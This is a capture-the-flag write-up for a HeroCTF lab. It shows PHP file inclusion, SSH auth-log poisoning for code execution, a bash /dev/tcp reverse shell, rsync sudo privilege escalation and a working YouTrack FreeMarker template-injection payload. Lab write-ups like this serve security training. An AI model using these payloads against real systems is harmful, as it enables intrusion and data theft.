



# IMF#0: Your mission, should you choose to accept it

### Category

System

### Description

The Infamous Mother Fluckers have been hired to take down a guy named Dave. I think his sister's husband's cousin's wife's brother's son had an affaire with our client's wife, and for some reason he want's to take it out on him. But who are we to judge right ? We're getting paid, that's enough for me.

I got you a job in the same development start-up as Dave. In fact, you are his team mate. I asked around in some underground circles, and word is on the streets that our guy is selling customer information. If you can get proof of that and send it to his boss, he'll get fired and we'll get paid. I'm counting on you.

And keep you eyes opened, you might find some other interseting stuff on the company's network.

For this mission, you are bob. Your ssh credentials are `bob:password`.

Enter this password to accept the mission : `Hero{I_4cc3pt_th3_m1ss10n}`

*This message will self-destruct in 5 seconds.*

> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

#### Summary

1. [Flag 0](#flag-0)
2. [Flag 1](#flag-1)
3. [Flag 2](#flag-2)
4. [Flag 3](#flag-3)
5. [Flag 4](#flag-4)


#### Flag 0

To start the challenge, you just have to enter the password `Hero{I_4cc3pt_th3_m1ss10n}`. This will unlock the rest of the challenges.

#### Flag 1

The challenge's description hints towards bug tracking. The welcome note in our home directory states that the company uses YouTrack to track bugs, that it's running on port 8080 and that the credentials are `dev:aff6d5527753386eaf09`.

Let's forward that port to us to access the YouTrack interface.

```plain
$ ssh -L 8080:localhost:8080 bob@localhost -p 2222
```

You can now navigate to [http://localhost:8080](http://localhost:8080), authenticate, and land on a bug tracking dashboard with a few issues. If you take a look at the issues, you'll notice that one of them holds the flag.



If you google for exploits on youtrack, you'll find an article detailing a [SSTI](https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack.html). However, this requires to have admin access, which we don't have for now. Let's come back to it later.

#### Flag 2

The welcome note also mentions a utility that allows to check the backup server's logs. It also mentions that the first backups where made during the administration account setup. Let's try it out.

```plain
bob@dev:~$ curl backup
05/11/23|20:24:02 [+] Data copied from dev machine
05/11/23|20:24:02 [+] Data from dev zipped (size:4998014)
05/11/23|20:25:01 [!] Failed to fetch data from dev machine
05/04/23|08:12:02 [+] Data copied from dev machine
05/04/23|08:12:02 [+] Data from dev zipped (size:865509)
...
```

If you went through the closed issues on the you track board, you probably stumbled on this one :



The source code is provided.

```php
<?php
    $file = $_GET['file'];
    if(isset($file))
    {
        include("$file");
    }
    else
    {
        include("/var/log/backup.log");
    }
?>
```

The default behavior is to include the backup log file. However, we can specify a file to include by passing it as a GET parameter. This LFI allows us to read any file that the user running the web server is allowed to read.

```plain
bob@dev:~$ curl backup?file=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:105:107::/home/syslog:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
dave:x:1000:1000:,,,:/home/dave:/bin/bash
```

Now how can we leverage this to get access to the backup machine ? Here again, the challenge's description is a hint. Historically, poison is considered as women's weapon.

It's indeed possible to RCE with an LFI through ssh log poisonning.

If we can include the `/var/log/auth.log` file, the attack is most likely possible.

```plain
bob@dev:~$ curl backup?file=/var/log/auth.log
May  4 08:11:38 backup sudo: pam_unix(sudo:session): session closed for user root
May  4 08:11:38 backup sshd[56]: Server listening on 0.0.0.0 port 22.
May  4 08:11:38 backup sshd[56]: Server listening on :: port 22.
May  4 08:12:01 backup CRON[57]: pam_env(cron:session): Unable to open env file: /etc/default/locale: No such file or directory
May  4 08:12:01 backup CRON[57]: pam_unix(cron:session): session opened for user dave(uid=1000) by (uid=0)
```

We can! The idea is to inject php code in this file and then include it through the LFI.

This is the delicate part. If you mess up the php code injection part, you won't get a second try. It's best to try this locally since we have the source code.

```plain
bob@dev:~$ ssh '<?php system($_GET["c"]); ?>'@backup
The authenticity of host 'backup (172.21.0.3)' can't be established.
ED25519 key fingerprint is SHA256:pJsUM5kw0miPV6Urg2SduyJHadZjJH14XmkXAmDJc6E.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'backup' (ED25519) to the list of known hosts.
<?php system($_GET["c"]); ?>@backup's password:
```

Here we are trying to SSH into the backup machine with the user `<?php system($_GET["c"]); ?>`. Of course it will fail because the user doesn't exist. However, it will be logged in the auth.log file, thus allowing is to execute arbitrary code.

```plain
bob@dev:~$ curl "backup?file=/var/log/auth.log&c=id"
...
May  4 08:39:37 backup sshd[495]: Connection closed by invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data)
 172.21.0.2 port 43212 [preauth]
...
```

The command is executed and we can read the output. Now we need to get a reverse shell.

First let's get our IP on the local nextwork.

```plain
bob@dev:~$ hostname -I
172.21.0.2
```

I'm going to use this payload: `bash -c 'bash -i >& /dev/tcp/172.21.0.2/9999 0>&1'`. (Don't forget to start a listener).

```plain
bob@dev:~$ curl "backup?file=/var/log/auth.log&c=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.21.0.2%2F9999%200%3E%261%27"
```

Note that I URL encoded it, in order to have a valid URL.

```plain
www-data@backup:~/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@backup:~/html$ cd /backup
cd /backup
bash: cd: /backup: Permission denied
www-data@backup:~/html$ ls -ld /backup
ls -ld /backup
drwxrwx--- 1 backup backup 4096 May  4 09:03 /backup
```

There is a `/backup` folder, but we can't access it, only the `backup` user can.

Fortunately for us, there is an easy privesc to that user.

```
www-data@backup:~/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on backup:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on backup:
    (backup) NOPASSWD: /usr/bin/rsync
```

GTFOBins : https://gtfobins.github.io/gtfobins/rsync/

```plain
www-data@backup:~/html$ sudo -u backup /usr/bin/rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
<rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
id
uid=34(backup) gid=34(backup) groups=34(backup)
ls /backup
backup.sh
flag.txt
youtrack-1683190681.zip
...
cat /backup/flag.txt
Hero{n0t_0nly_hum4ns_c4n_b3_po1s3n3d}
```

#### Flag 3

As stated earlier, the welcome note mentions that the first backups where made during the administration account setup. Let's grab the oldest backup in the folder.

```plain
ls -alt | grep youtrack | tail -n 1
-rw-rw-r-- 1 dave   dave   691271 May  2 20:31 youtrack-1683836642.zip
```

We could work with it on this machine, but I'm going to send it to the `dev` machine where I have a stable ssh access.

On `dev`
```plain
bob@dev:/tmp$ nc -l -p 1234 > youtrack-1683836642.zip
```

On `backup`
```plain
nc -w 3 dev 1234 < youtrack-1683836642.zip
```

Once the backup is unzipped, we can start poking around, and for example grep the "password" string.

```plain
bob@dev:/tmp/youtrack$ grep -R -i password
...
conf/youtrack/service-config.properties:bundle.root-password=Th1sIsAV3ryS3cur3Adm1nP4ssw0rd0101#
...
```

This occurs because the administration password is stored in the configuration in plaintext during the first setup, until the app is restarted at some point.

The backup log file shows a failure to fetch the data from the app, we can assume that the app restarted at this point, which is why the password will not be found in any other backup.

If we go back to the youtrack interface, we can now connect as admin.

As I said in the first step, youtrack has a known [SSTI](https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack.html) detailed in the article. While on the Youtrack interface, you can notice at the bottom the build number (2020.5.2579) which matches the version in the article.

Let's go to http://localhost:8080/admin/notificationTemplates/article_digest_subject and try the payload.

```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>${dwf.newInstance(ec,null)("id")}
```



We have a RCE as dave! Let's checkout his home folder (every command from now on are executed via the RCE)

```plain
$ ls /home/dave
flag.txt randomfile.txt.enc

$ cat /home/dave/flag.txt
Hero{pl41nt3xt_p4ssw0rd_4nd_s5t1_b1t_much_41nt_1t?}
```

PS: You might have to refresh the page sometimes if the SSTI output is hanging.

#### Flag 4

For this final step, the goal is obviously to decipher the `randomfile.txt.enc` file. It contains some random data, and the name is hinting towards an encrypted file.

The challenge is called "*Put the past behind*". If only we could see past commands, and maybe the command used to encrypt the file...

Oh wait...

```plain
$ cat /home/dave/.bash_history
whoami
ls
vim randomfile.txt
zip randomfile.zip randomfile.txt
vps=38.243.09.46
scp randomfile.txt dave@$vps:~/toSendToBuyer.txt
openssl aes-256-cbc -salt -k Sup3r53cr3tP4ssw0rd -in randomfile.txt -out randomfile.txt.enc
ls
rm randomfile.txt randomfile.zip
```

The encryption command was:

```plain
openssl aes-256-cbc -salt -k Sup3r53cr3tP4ssw0rd -in randomfile.txt -out randomfile.txt.enc
```

We just have to decode it with the same command, but with the `-d` flag and by inverting the `-in` and `-out` parameters.

```plain
$ openssl aes-256-cbc -d -salt -k Sup3r53cr3tP4ssw0rd -in /home/dave/randomfile.txt.enc -out /home/dave/randomfile.txt
```

```plain
$ cat /home/dave/randomfile.txt
Here is a sample of the hashes I dumped from the database, in good faith.

Pay up, and I'll send you the rest. Once you have you order, we never speak again. Glad doing business with you.

louis       afba3f2f6a6124ff952cdf8fa6d639ea
samantha    b92af75ee8a69de838e1d2eefc380bfb
joey        dfa3e5ccebaabe11bbde4b7f4de5bbd4
karl        219f9ad3f2efb75afcae7fab39fcd1aa
steve       f9df3a4453f27b8bfdd39ee96aca7bac
john        3d82b3ce57d8edfe2eaba8eb8eeebb3f
michael     84cae12ee0242ae4abb1e5fbaab40952
george      e58eddfd7a8d670ef5187c05b16b95a1
sarah       fdf4f0e12e7d4cd083abb61a4b7232d9
lucas       60d2fccbc0be51dc8dcd182b0b6a806f
sylvia      e4282d7ee69cab77bb41ec0e02598bad

Hero{4_l1ttle_h1st0ry_l3ss0n_4_u}
```

We have proof that dave sold client information... Our job is done here, well done.

### Flag

```plain
Hero{I_4cc3pt_th3_m1ss10n}
```
